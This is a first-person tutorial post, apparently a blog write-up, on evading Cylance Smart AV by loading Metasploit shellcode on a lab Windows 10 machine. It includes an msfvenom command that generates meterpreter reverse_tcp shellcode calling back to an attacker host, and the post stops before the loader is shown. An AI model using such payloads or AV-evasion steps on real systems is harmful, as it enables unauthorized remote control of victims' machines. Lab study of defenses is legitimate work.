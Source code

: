 This is not one of those impractical posts showing the results of a VirusTotal scan against a scratch-coded simple reverse shell to judge whether it'll pass as the payload for an actual red-teaming engagement and if so terming it as a bypass.

Before we begin I want to make it clear that I was neither employed by any company nor paid by an individual to perform these tests. All of this was done on personal interest and curiosity just to confirm whether I could.

## Preparing the test environment
Of course, we would need to set up a test environment to run the scenario. Here are the things you'd need:

1. The latest version of Windows 10 build with all security hotfixes installed - This is going to be our target machine.
1. A Linux box loaded with Metasploit framework - The attacker machine.
1. A copy of Cylance Smart AV with all features enabled - You may get a "trial" version for a month(5 USD).

I'd strongly recommend to set up a Windows VM using VirtualBox/VMWare instead of using your production machine. Since there are plenty of resources available online on how to do so and considering the fact that there's not much to explain here pertaining the main topic, I will leave this step as an exercise for the readers.

Keep in mind, for simplicity's sake we are not using a VPS as the target machine. Therefore, it is your responsibility to set up the environment in such a way that both the machines are on the same local network.

## Phase 2 of Kill Chain - Weaponization
Considering that you've already done your homework on the target(Reconnaissance), we'll move on directly to Phase 2 of the Cyber Kill Chain i.e. creating the backdoor and coupling it with the exploit.
### Creating the Payload
Our first step is to create the payload which will give us the remote access to the target machine via a C2 channel.

This is one of the most crucial parts of the attack as you'd need a payload that doesn't get picked up by Cylance Smart AV on the host. Initially, I experimented with _meterpreter_ exe/dlls but with no success. Before you can even bring your cursor close to the payload, it's gonna light up the Cylance panel showing an alert that a serious threat has been detected and removed successfully. This is well expected of course but I must say that I was kinda impressed with the response time of the AV.

So what do we do?

How about generating a shellcode then? And execute the shellcode via a loader program which we will create later on. 

Let's do that and generate a shellcode C-string via MSFVenom using:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.104 LPORT=8080 -f c
```

Take care to change the `LHOST` to your Linux machine's local IP and `LPORT` if you desire so.
